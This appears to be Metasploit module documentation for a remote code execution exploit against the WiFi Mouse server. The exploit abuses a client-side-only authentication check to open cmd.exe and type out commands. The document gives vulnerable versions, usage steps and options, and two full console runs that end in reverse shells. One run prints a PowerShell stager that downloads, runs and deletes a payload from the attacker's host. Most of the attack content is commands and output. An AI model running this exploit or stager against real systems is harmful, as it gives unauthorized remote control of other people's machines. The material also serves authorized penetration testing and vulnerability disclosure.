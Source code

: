 ## Vulnerable Application

The WiFi Mouse (Mouse Server) from Necta LLC contains an auth bypass as the
authentication is completely implemented client side. By utilizing this
vulnerability, it is possible to open a program on the server (cmd.exe
in our case) and type commands resulting in an RCE.

Versions 1.8.3.4 (current as of module writing) and before are vulnerable.

Version 1.8.3.4 can be downloaded from https://wifimouse.necta.us/apk/MouseServer.exe
at the time of writing.

Version 1.8.3.0 can be downloaded from https://wifimouse.necta.us/apk/MouseServer1.8.3.0.exe

Version 1.8.2.3 can be downloaded from [edb](https://www.exploit-db.com/apps/46b494c56615f48dd09065108d604762-MouseServer.exe) or from https://wifimouse.necta.us/apk/MouseServer1.8.2.3.exe

Version 1.7.8.5 can be downloaded from https://wifimouse.necta.us/apk/MouseServerLatest.exe
## Targets

### Stager

This is Metasploit's cmd stager, it has two flavors which can be changed through the advanced option
`CMDSTAGER::FLAVOR`.

1. `psh_invokewebrequest` (default) this one types the command and pulls back the payload nice and fast.
You should use it in almost all circumstances.
2. `certutil`  typing of the payload appears on the user's screen, and is thus unreliable
(needs ~3.5min of solitude). If the user types anything or moves the focus to another window, exploit will fail.


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/wifi_mouse_rce`
4. Set `rhost` and `lhost` as required.
5. Do: `run`
6. You should get a shell as the user who is running wifi mouse.

## Options

### SLEEP

The length of time, in seconds, to sleep between each command. This gives the remote program time to process the command on screen.

### LINEMAX

How long each line should be that is sent for processing.  While the program
seems to be able to take ~2048, anything more than ~1020 seems to crash the program. 1000 - 1020 should be safe.
Defaults to `1020`.

## Scenarios

###  Wifi Mouse 1.8.3.4 on Windows 10 using `psh_invokewebrequest` Stager

```
resource (mouse.rb)> use exploits/windows/misc/wifi_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (mouse.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (mouse.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (mouse.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/wifi_mouse_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:1978 - Opening command prompt
[*] 2.2.2.2:1978 - Typing out payload
[*] 2.2.2.2:1978 - Using URL: http://1.1.1.1:8080/qGn4ESH
[*] 2.2.2.2:1978 - Generated command stager: ["powershell.exe -c Invoke-WebRequest -OutFile %TEMP%\\IDcEhcbA.exe http://1.1.1.1:8080/qGn4ESH & %TEMP%\\IDcEhcbA.exe & del %TEMP%\\IDcEhcbA.exe"]
[*] 2.2.2.2:1978 - Command Stager progress - 100.00% done (146/146 bytes)
[*] 2.2.2.2:1978 - Client 2.2.2.2 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.16299.98) requested /qGn4ESH
[*] 2.2.2.2:1978 - Sending payload to 2.2.2.2 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.16299.98)
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:50211) at 2022-09-21 16:29:06 -0400
[*] 2.2.2.2:1978 - Server stopped.


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Windows\system32>whoami
whoami
win10prolicense\windows

C:\Windows\system32>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```

### Wifi Mouse 1.8.2.3 on Windows 10 using `certutil` Stager

```
resource (mouse.rb)> use exploits/windows/misc/wifi_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (mouse.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (mouse.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (mouse.rb)> set CMDSTAGER::FLAVOR certutil
CMDSTAGER::FLAVOR => certutil
msf6 exploit(windows/misc/wifi_mouse_rce) > set verbose false
verbose => false
msf6 exploit(windows/misc/wifi_mouse_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:1978 - Opening command prompt
[*] 2.2.2.2:1978 - Typing out payload
[*] 2.2.2.2:1978 - Command Stager progress -   1.01% done (1019/100776 bytes)
[*] 2.2.2.2:1978 - Command Stager progress -   2.02% done (2038/100776 bytes)
[*] 2.2.2.2:1978 - Command Stager progress -   3.03% done (3057/100776 bytes)
...
[*] 2.2.2.2:1978 - Command Stager progress -  98.08% done (98843/100776 bytes)
[*] 2.2.2.2:1978 - Command Stager progress -  99.09% done (99862/100776 bytes)
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] 2.2.2.2:1978 - Command Stager progress - 100.00% done (100776/100776 bytes)
[*] Command shell session 3 opened (1.1.1.1:4444 -> 2.2.2.2:50926) at 2022-09-04 15:11:29 -0400


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Program Files (x86)\MouseServer.exe>
```
